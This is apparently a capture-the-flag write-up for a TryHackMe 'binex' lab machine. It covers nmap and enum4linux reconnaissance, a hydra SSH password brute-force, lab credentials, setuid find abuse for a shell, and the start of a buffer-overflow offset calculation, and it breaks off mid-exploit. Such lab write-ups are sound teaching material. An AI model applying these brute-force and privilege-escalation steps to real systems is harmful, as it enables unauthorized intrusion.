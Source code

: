 # binex



## nmap



Nmap scan report for 10.10.215.30                                                                                                      
Host is up (0.22s latency).                                                                                                            
Not shown: 65532 closed ports                                                                                                          
PORT    STATE SERVICE     VERSION                                                                                                      
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                 
| ssh-hostkey: 
|   2048 3f:36:de:da:2f:c3:b7:78:6f:a9:25:d6:41:dd:54:69 (RSA)
|   256 d0:78:23:ee:f3:71:58:ae:e9:57:14:17:bb:e3:6a:ae (ECDSA)
|_  256 4c:de:f1:49:df:21:4f:32:ca:e6:8e:bc:6a:96:53:e5 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: THM_EXPLOIT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 7s, deviation: 0s, median: 6s
|_nbstat: NetBIOS name: THM_EXPLOIT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: thm_exploit
|   NetBIOS computer name: THM_EXPLOIT\x00
|   Domain name: \x00
|   FQDN: thm_exploit
|_  System time: 2020-08-18T03:14:27+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported 
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-08-18T03:14:27



## enum4linux



```
enum4linux -R 1000-1003 <ip>
```



![image-20200818085926502](binex.assets/image-20200818085926502.png)



#### usernames

- kel
- des
- tryhackme
- noentry



## hydra



using hydra to brute force into ssh

````
hydra -l tryhackme -P wordlist <ip> ssh
````



![image-20200818123927469](binex.assets/image-20200818123927469.png)



#### credentials

username		tryhackme

password		 thebest



## binex



### challenge 1



find command has setuid of user dev we can exploit it to get a shell with des privileges.

![image-20200818124750929](binex.assets/image-20200818124750929.png)

- got our shell 
- got the flag
- and new credentials



#### credentials

des

destructive_72656275696c64



### challenge 2



#### segmentation fault

that means there is a way to control the eip and execute our shell code

![image-20200818130502924](binex.assets/image-20200818130502924.png)





#### offset

- our base pointer is overwritten 
- we will calculate basepointer and add 8 bytes because we need to overwrite RIP
- which is 8 bytes below the base pointer

![image-20200818133956418](binex.assets/image-20200818133956418.png)



![image-20200818134228352](binex.assets/image-20200818134228352.png)

off set is 608 is 8 that is 616.



### EIP



now we are controlling the EIP.

![image-20200818134844561](binex.assets/image-20200818134844561.png)



````
run < <(python -c 'print 100 * "A"')

0x7fffffffde98
/x98/xde/xff/xff/
````


